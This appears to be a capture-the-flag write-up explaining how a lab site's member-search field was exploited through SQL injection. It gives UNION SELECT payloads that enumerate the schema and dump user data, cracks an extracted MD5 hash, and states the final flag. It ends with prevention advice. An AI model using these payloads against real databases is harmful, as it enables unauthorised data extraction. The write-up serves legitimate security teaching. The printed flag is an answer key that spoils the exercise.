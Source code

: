 # MEMBERS PAGE

## Explanations

In the members page, we encounter a textfield with a submit to search a member by ID.  

Before even beginning, if we submit nothing we have this message:  

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1` => an SQL injection seems to be possible !


Typing an ID gives us indeed a user linked to that ID, for example typing `1` will give us:
```
ID: 1 
First name: Barack Hussein
Surname : Obama
```

Now let's get some more informations about the database.  

We can try to add another SQL request with `UNION` and get more infos with the request:  
```
 1 UNION SELECT * FROM information_schema.columns
```
 giving us this output:

```
The used SELECT statements have a different number of columns
```

It seems like we need to select only 2 informations because our first SQL request only gave us `First name` and `Surname` (the output needs to remain on 2 columns)  

So let's get all the columns and tables avalaible on the dabase with:  
```
 1 UNION SELECT column_name, table_name FROM information_schema.columns
```

It worked ! By looking closely we see a `users` table that has 8 columns:  
 `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire` and `countersign`


Let's check each users with: 

```
1 UNION SELECT last_name, first_name FROM users
```

One of the users returns us `GetThe` as 'last_name' and `Flag` as 'first_name' !

By checking the other infos about this user, we finally try:

```
1 UNION SELECT Commentaire, countersign FROM users
```
and get:
```
ID: 1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's get this flag now !

First we decrypt (MD5) `5ff9d0165b4f92b14994e5c685cdce28` which gives us `FortyTwo` then lowered the chars to `fortytwo`

Finally, we get the flag by applying SHA256 which gives us : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

----

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

----

#### Sources
[All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
[SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)


